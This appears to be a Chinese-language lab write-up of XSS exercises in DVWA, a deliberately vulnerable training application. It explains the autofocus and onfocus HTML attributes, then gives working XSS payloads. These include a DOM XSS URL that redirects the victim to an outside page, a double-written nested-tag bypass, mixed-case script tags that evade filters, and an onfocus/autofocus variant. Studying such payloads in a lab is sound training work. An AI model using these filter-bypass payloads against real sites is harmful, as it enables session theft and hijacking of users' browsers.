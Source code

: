 http://192.168.56.1/DVWA/vulnerabilities/xss_d/?default=English<script>alert(%27提交成功！%27);location.href=%27https://www.jianshu.com/p/757626cec742%27;"%20response.end</script>


关于autofocus的属性
：autofocus 属性是一个布尔属性。
autofocus 属性规定当页面加载时 <input> 元素应该自动获得焦点。
焦点的意思就是被选中，和文本框相似，

<button type="button" autofocus="autofocus">

点击这里</button>当页面加载完成之后，这个按钮会被选中
autofocus 属性是一个布尔属性。
autofocus 属性规定当页面加载时 <input> 元素应该自动获得焦点。
1 2 3 4
 <input autofocus="autofocus" /> <button autofocus="autofocus">Hi!</button> <textarea autofocus="autofocus"></textarea>
当有了autofocus属性，这些 INPUT, TEXTAREA, 或 BUTTON元素都能在页面加载是被选中。但如果使用纯显示元素，例如H1标记，autofocus属性并不好用。
这个属性在某些情况下非常有用。例如谷歌的首页，人们99%的时间都是用它来搜索，所以页面一旦加载，光标必然定位在输入框里。以前需要使用JavaScript才能完成，现在完全不需要了，html自己就能完成。


在html中 onfocus事件表示   事件在对象获得焦点时发生。

https://www.runoob.com/try/try.php?filename=tryjsref_onfocus
1.反射型XSS漏洞

在medium中 对代码进行了过滤，可以直接用双写 绕过！
输入

<sc<script>ript>alert(/xss/)</script>


，成功弹框：
相应的 XSS 链接：
http://<IP地址!!!>/dvwa/vulnerabilities/xss_r/?name=%3Csc%3Cscript%3Eript%3Ealert%28%2Fxss%2F%29%3C%2Fscript%3E#
其中使用url翻译：http://tool.chinaz.com/tools/urlencode.aspx

也可以通过大小写混淆写通过：
输入<ScRipt>alert(/xss/)</script>，<ScRipt>alert(/XSS/)</script>成功弹框：
<ScRipt>alert(/XSS/)</script>
<ScRipt>alert(/wangan2019guoqing?70zhounianwangluoanquanbaozhangxingdongL?/)</script>
相应的 XSS 链接（转码为url）：http://<IP地址!!!>/dvwa/vulnerabilities/xss_r/?name=%3CScRipt%3Ealert%28%2Fxss%2F%29%3C%2Fscript%3E#


但是在high中

过滤了很多代码，使得<script> 注入XSS代码无法使用。只能通过 其他方法
具体见上文

<input onfocus="https://www.baidu.com/" autofocus>


2.存储型XSS漏洞
对输入并没有做 XSS 方面的过滤与检查，且存储在数据库中，因此这里存在明显的存储型 XSS 漏洞


```

medium：

所以可以直接使用双写，大小写混写等直接绕过！
很垃圾：
双写绕过
直接修改前端代码改 name 参数为

```
<sc<script>ript>alert(/xss/)</script>
<script>alert(/xss/)</script>
```
 ,成功弹框
```